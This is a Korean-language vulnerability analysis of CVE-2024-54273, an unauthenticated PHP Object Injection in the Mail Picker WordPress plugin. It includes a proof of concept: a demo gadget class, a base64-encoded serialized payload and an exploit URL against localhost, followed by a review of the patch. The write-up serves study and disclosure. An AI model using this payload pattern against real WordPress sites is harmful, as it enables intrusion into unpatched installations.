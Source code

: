# CVE-2024-54273

## Index
* [📌 Analysis](#📌-analysis)
    * [1. 개요](#1-개요)
    * [2. 분석 준비](#2-분석-준비)
    * [2. 취약점 분석](#3-취약점-분석)
* [📌 PoC](#📌-poc)
* [📌 패치 확인](#📌-패치-확인)

## 📌 Analysis

### 1. 개요

CVE-2024-54273 에서는 WordPress 플러그인 Mail Picker 버전 1.0.14 이하에서 PHP Object Injection 취약점이 발견되었습니다. Mail Picker 플러그인은 이메일을 통한 마케팅 및 뉴스레터 발송을 지원하는 플러그인으로, 해당 플러그인에서는 알려진 POP Chain이 없으나 워드프레스 사이트에 추가 플러그인 및 테마에 POP Chain이 있는 경우 공격자는 해당 취약점을 통해 임의 파일 삭제, 민감 데이터 노출, 코드 실행 등 악의적인 행위를 일으킬 수 있습니다.

### 2. 분석 준비

Mail Picker 플러그인은 구독 폼 생성 페이지(`/wp-admin/post-new.php?post_type=subscriber_form`)에서 폼을 생성할 때, 폼을 삽입할 수 있는 Shortcode(`[mail_picker_form id='7']`)를 확인하실 수 있습니다.

![image](images/image-001.png)

해당 이메일 구독 폼을 생성할 때는 reCaptcha 옵션을 비활성화 하고 폼 내 입력 값을 이메일(`subscriber_email`), 핸드폰 번호(`subscriber_phone`)를 선택합니다.

![image](images/image-002.png)

위와 같이 만들어진 이메일 구독 폼은 포스트 또는 페이지를 생성할 때, Short Code로 입력할 수 있습니다.

![image](images/image-003.png)

이렇게 만들어진 글은 공개 시 아래의 이메일 구독 폼으로 완성됩니다.

![image](images/image-004.png)

### 3. 취약점 분석

이메일 구독 폼에 각 입력 폼(이메일, 핸드폰 번호)에 맞는 데이터를 입력하고 제출(Submit)을 수행할 경우 현재 페이지의 URL로 폼 요청(POST 메소드 요청)이 발생합니다.

![image](images/image-005.png)

이때 Mail Picker 플러그인의 `/wp-content/plugins/mail-picker/templates/mail-picker-form/mail-picker-form.php` 파일에서는 아래의 과정을 통해 URL 파라미터 `mail_picker_action=add_subscriber`, `formFieldData=<base64 인코딩 데이터>`, `subscriber_status=pending` 를 가지는 URL로 GET 요청을 수행합니다.

이 중 URL 파라미터 `formFieldData` 는 아래의 과정을 통해 설정됩니다.

1. 입력 폼에서 사용자가 입력한 데이터를 가져옵니다.
2. 가져온 데이터를 PHP의 serialize 함수로 직렬화합니다.
3. 직렬화된 데이터는 base64 방식으로 인코딩됩니다.
4. 인코딩된 데이터를 URL 파라미터 `formFieldData`의 값으로 설정합니다.

![image](images/image-006.png)

이어서 GET 요청 URL은 URL 파라미터 `mail_picker_action=add_subscriber` 에 의해 `web/app/wp-content/plugins/mail-picker/includes/classes/class-manage-subscriber.php` 의 `add_subscriber` 함수를 호출합니다. 

이때, 해당 함수를 호출할 때 아래의 두 가지 문제가 발생하게 됩니다.

- 첫 번째, 요청을 수행한 사용자에 대한 권한 검사를 수행하지 않는다.
- 두 번째, URL 파라미터 `formFiledData` 에 대한 역직렬화를 수행합니다.

![image](images/image-007.png)

따라서, 인증되지 않은 사용자가 Base64로 인코딩된 직렬화된 데이터를 URL `?mail_picker_action=add_subscriber&formFieldData=<base64 인코딩 데이터>&subscriber_status=pending` 에서 URL 파라미터 `formFieldData` 에 삽입할 경우 Base64로 디코딩 된 다음 함수 `unserialize` 에 의해 역직렬화를 수행하므로 Base64로 디코딩된 값에 직렬화된 데이터가 삽입될 경우 PHP Object Injection 취약점이 발생하게 됩니다.

## 📌 PoC

### 1. POP Chain 준비

아래의 코드를 `wp-config.php` 파일 내 하단에 추가합니다.

```php
class PoC_POP_Chain_Object {
	
	public $message = "";

	public function __destruct() {
		echo "<mark>Success PoP Chain</mark>";
		echo "<br>";
		echo "<mark>msg: ". $this->message ."</mark>";
	}
}
```

![image](images/image-008.png)

### 2. 직렬화된 데이터 준비

POP Chain을 위해 추가한 `PoC_POP_Chain_Object` 클래스에 `message` 가 `Exploit !!` 인 객체의 직렬화 데이터는 다음과 같습니다.

```
O:20:"PoC_POP_Chain_Object":1:{s:7:"message";s:10:"Exploit !!";}
```

이 데이터를 Base64로 디코딩하면 다음과 같습니다.

```
TzoyMDoiUG9DX1BPUF9DaGFpbl9PYmplY3QiOjE6e3M6NzoibWVzc2FnZSI7czoxMDoiRXhwbG9pdCAhISI7fQ
```

### 3. Exploit

Base64로 인코딩된 `PoC_PoP_Chain_Object` 클래스 객체의 직렬화 데이터를 URL 파라미터 `formFiledData`에 삽입합니다. 그리고 URL 파라미터 `mail_picker_action`의 값을 `add_subscriber`로, `subscriber_status`의 값을 `pending`으로 설정합니다.

완성된 URL은 다음과 같습니다.

```
http://localhost:8080/?mail_picker_action=add_subscriber&formFieldData=TzoyMDoiUG9DX1BPUF9DaGFpbl9PYmplY3QiOjE6e3M6NzoibWVzc2FnZSI7czoxMDoiRXhwbG9pdCAhISI7fQ&subscriber_status=pending
```

이후 해당 URL에 접속할 경우 다음과 같이 PHP Object Injection 취약점을 이용하여 POP Chain이 동작하는 것을 확인할 수 있으며, 직렬화된 객체의 `message` 값인 `Exploit !!`이 출력됩니다.

![image](images/image-009.png)

## 📌 패치 확인

> https://plugins.trac.wordpress.org/changeset/3206691/mail-picker?old=3126661&old_path=%2Fmail-picker#file83
> 

1.0.14 버전 이하에서는 직렬화된 데이터를 base64로 인코딩하여 직렬화된 데이터를 전송 했지만 패치된 1.0.15 버전에서는 직렬화 데이터 없이 데이터를 직접 전송하도록 변경되었습니다.(`/wp-content/plugins/mail-picker/templates/mail-picker-form/mail-picker-form.php` 파일 내 `mail_picker_form` 함수)

![image](images/image-010.png)

이에 취약점 트리거가 발생하는 위치(`/wp-content/plugins/mail-picker/includes/classes/class-manage-subscriber.php` 파일 내 `add_subscriber` 함수)에서도 역직렬화 함수 `unserialize` 를 제거하고 요청 데이터로부터 값을 그대로 사용하는 것을 확인하실 수 있습니다.

![image](images/image-011.png)

따라서, 패치 버전 1.0.15 버전부터는 사용자 입력값을 직렬화하지 않고 순수한 데이터 형태로 처리함으로써 PHP Object Injection 취약점을 원천적으로 차단하는 방식으로 패치되었습니다.
